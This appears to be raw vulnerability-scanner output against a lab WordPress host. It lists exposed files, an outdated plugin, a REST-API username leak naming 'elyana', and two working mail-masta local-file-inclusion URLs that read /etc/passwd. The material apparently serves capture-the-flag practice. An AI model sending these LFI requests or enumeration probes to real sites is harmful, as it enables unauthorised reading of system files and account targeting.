 [wordpress-directory-listing] [http] [info] http://10.10.179.242/wordpress/wp-content/uploads/
[wordpress-directory-listing] [http] [info] http://10.10.179.242/wordpress/wp-includes/
[wp-license-file] [http] [info] http://10.10.179.242/wordpress/license.txt
[wordpress-detect:version_by_js] [http] [info] http://10.10.179.242/wordpress/ [5.5.1]
[wordpress-akismet:outdated_version] [http] [info] http://10.10.179.242/wordpress/wp-content/plugins/akismet/readme.txt [4.1.6] [last_version="5.0.2"]
[CVE-2017-5487:usernames] [http] [medium] http://10.10.179.242/wordpress/?rest_route=/wp/v2/users/ [elyana]
[wordpress-login] [http] [info] http://10.10.179.242/wordpress/wp-login.php
[wordpress-readme-file] [http] [info] http://10.10.179.242/wordpress/readme.html
[wordpress-xmlrpc-file] [http] [info] http://10.10.179.242/wordpress/xmlrpc.php
[CVE-2016-10956] [http] [high] http://10.10.179.242/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
[CVE-2016-10956] [http] [high] http://10.10.179.242/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?pl=/etc/passwd
